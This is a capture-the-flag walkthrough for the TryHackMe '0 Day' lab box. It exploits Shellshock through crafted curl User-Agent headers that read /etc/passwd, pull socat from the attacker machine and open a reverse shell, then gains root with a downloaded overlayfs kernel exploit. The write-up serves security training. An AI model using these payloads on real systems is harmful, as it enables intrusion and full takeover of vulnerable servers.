THM: 0 Day
Enumeration
Rustscan & Nmap

Nikto
nikto --url http://10.10.55.169 | tee nikto_results

We find shellshock vulnerability.
Foothold
Method-1 (Apperentice)
Search the shellshock exploit in searchsploit.

Note: The first metasploit version may also work. I have not tested it.
I will use the 2nd one.
searchsploit -m 34900
Download the python file & rename it as exploit.py
Note: It uses python 2
Run as follows:
Note: I got the value of pages from Nikto scan. (Else the code searches for a series of default paths, this included, so will work without "pages" argument)
python2 exploit.py payload=reverse rhost=10.10.55.169 lhost=10.11.9.100 lport=9999 pages=/cgi-bin/test.cgi

Thus, we have a fully functional python reverse shell.
Method-2 (Pro)
Nikto indicates that there’s a file called test.cgi in the /cgi-bin/ directory which might be vulnerable to ShellShock — a devastating vulnerability which affects older versions of Bash. CGI files are used by the webserver to execute commands in a native scripting language — in this case, that means that our test.cgi file will be running Bash commands. With vulnerable versions of bash, injecting a function definition “(){ :;};” into the input of such a script would force the script to execute any subsequent commands. Like so:
curl -A "() { :;}; echo Content-Type: text/html; echo; /bin/cat /etc/passwd;" http://10.10.55.169/cgi-bin/test.cgi

Before we start taking advantage of this vulnerability. Let’s dissect the above curl command. There are two parts to this command: with -A we’re specifying that we want to use a custom User-Agent. This is where we inject the payload, simply because the user-agent is a default header which we know will be read by the script. The second part of the command is standard — specifying the target: http://<MACHINE-IP>/cgi-bin/test.cgi. With that established, let’s break our payload down a little. There are technically four commands being run here:
() { :;};
This defines an empty bash function. It’s there to activate the vulnerability, as shellshock relies on a function being declared prior to all subsequent commands being executed.
echo Content-Type: text/html; echo;
This section of the command is used to prevent the server from crashing when the vulnerability is exploited. A properly formatted HTTP response will contain a Content-Type header, and a blank line before the body of the reponse is displayed. Without these, the server will return a “500 Internal Server” error. Thus we use this section of the payload to simulate the Content-Type header and subsequent blank line.
/bin/cat /etc/passwd;
Finally, the meat of the payload. These are the commands we actually want to be executed. In this instance this is merely outputting the contents of /etc/passwd; however, we could add any other commands we wished here.
Let’s go ahead and check which user we’re executing commands as:
curl -A "() { :;}; echo Content-Type: text/html; echo; /usr/bin/whoami;" http://10.10.55.169/cgi-bin/test.cgi

We will use a static binary of socat for this.
Link: https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true
Host the socat executible in a python webserver in our kali machine:
python -m http.server 80
Start a socat listener in our Local machine:
socat TCP-L:7777 FILE:`tty`,raw,echo=0
Then, our payload for foothold will be:
/usr/bin/wget http://10.11.9.100/socat -O /tmp/socat; /usr/bin/chmod +x /tmp/socat; /tmp/socat TCP:10.11.9.100:7777 EXEC:"bash -li",pty,stderr,sigint,setsid,sane;
Final Curl Command:
curl -A "() { :;}; echo Content-Type: text/html; echo; /usr/bin/wget http://10.11.9.100/socat -O /tmp/socat; /bin/chmod +x /tmp/socat; /tmp/socat TCP:10.11.9.100:7777 EXEC:'bash -li',pty,stderr,sigint,setsid,sane;" http://10.10.55.169/cgi-bin/test.cgi
NOTE: I tried the above command. But it seems to only execute the first command.
Thus, we need to give each command separately in multiple curl statements as below.
curl -A "() { :;}; echo Content-Type: text/html; echo; /usr/bin/wget http://10.11.9.100/socat -O /tmp/socat" http://10.10.55.169/cgi-bin/test.cgi
curl -A "() { :;}; echo Content-Type: text/html; echo; /bin/chmod +x /tmp/socat" http://10.10.55.169/cgi-bin/test.cgi
curl -A "() { :;}; echo Content-Type: text/html; echo; /tmp/socat TCP:10.11.9.100:7777 EXEC:'bash -li',pty,stderr,sigint,setsid,sane" http://10.10.55.169/cgi-bin/test.cgi
We get a fully functional shell in our listener.

We get the user flag as follows:

Privilege Escalation
This is a very old version of Ubuntu, meaning it’s likely vulnerable to a plethora of kernel exploits. Usually a kernel exploit is the last resort — what you use when there are no other methods available. In this instance, however, I happen to know that a kernel exploit is the intended route, so that’s what we’re going with.
Let’s start by checking the arch and release notes for this machine:
cat /etc/*-release

There are three important piece of information for our exploit planning:
• The arch is x64
• The kernel is version 3.13
• The OS version is Ubuntu 14.04.1 LTS
Additionally, let’s check to see if the gcc compiler is installed, and if so, which version it is:
which gcc
gcc --version

Then, in kali lets search in searhsploit.
searchsploit Ubuntu 14.04 3.13 Local Privilege Escalation

searchsploit -m 37292
To copy the exploit to the current directory. I renamed it to ofs.c & then hosted it in python
In the target machine, we download the c code & compile it.
cd /tmp
wget http://10.11.9.100/ofs.c
gcc ofs.c -o exploit

we get a compile error. It is due to the PATH variable issue.
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
Then, we compile & run the program again. We got ROOT access !!.

We get the root flag in the /root directory.